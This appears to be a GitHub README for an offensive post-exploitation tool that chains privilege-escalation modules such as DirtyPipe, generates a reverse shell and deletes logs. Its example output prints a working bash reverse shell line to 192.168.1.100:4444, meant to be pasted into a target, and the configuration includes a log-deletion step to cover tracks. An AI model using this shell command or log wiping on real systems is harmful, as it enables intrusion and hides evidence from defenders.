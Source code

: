 # ExploitChainAutomator

## Description

ExploitChainAutomator is a modular post-exploitation chain executor designed for real-world offensive security scenarios. It automates multi-stage attacks after initial access, supporting chained local privilege escalation, reverse shell generation, and cleanup operations. By simulating adversary behavior, it helps red teamers practice realistic post-exploitation workflows with configurable, pluggable exploit modules.

## Features

* Modular CVE runner (e.g., DirtyPipe, PwnKit)
* Reverse shell payload generator
* Auto-escalate and execute multi-stage chains
* Optional cleanup/log deletion
* Logs all command execution and output
* Structured JSON output for audit/reporting
* Interactive or batch execution modes

## Installation

```bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

```bash
python3 main.py -c configs/config.yaml -o scans/results.json
```

Use `-i` for interactive mode:

```bash
python3 main.py -c configs/config.yaml -o scans/results.json -i
```

## Configuration

**configs/config.yaml**

```yaml
chain:
  - module: "detect_user"
    params: {}

  - module: "dirtypipe_exploit"
    params:
      lpe: true

  - module: "reverse_shell"
    params:
      lhost: "192.168.1.100"
      lport: 4444
      shell_type: "bash"

  - module: "cleanup"
    params:
      delete_logs: true
```

## Example Modules

* **detect\_user.py**

  * Detects current user and UID.
* **dirtypipe\_exploit.py**

  * Simulates a DirtyPipe privilege escalation.
* **reverse\_shell.py**

  * Generates a reverse shell payload for manual execution.
* **cleanup.py**

  * Optionally deletes logs to cover tracks.

## Example Output

**scans/results.json**

```json
{
  "context": {
    "user": "kali",
    "uid": "1000"
  },
  "chain_results": [
    {
      "module": "detect_user",
      "output": {"user": "kali", "uid": "1000"}
    },
    {
      "module": "dirtypipe_exploit",
      "output": {
        "status": "simulated LPE success",
        "new_user": "root",
        "method": "DirtyPipe"
      }
    },
    {
      "module": "reverse_shell",
      "output": {
        "generated_payload": "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1",
        "note": "Payload not executed for safety. Paste into target manually."
      }
    },
    {
      "module": "cleanup",
      "output": {"status": "logs deleted"}
    }
  ]
}
```

## License

MIT

## Disclaimer

🔥 For educational use only. Do not run without authorization.

## Author

mchyasn
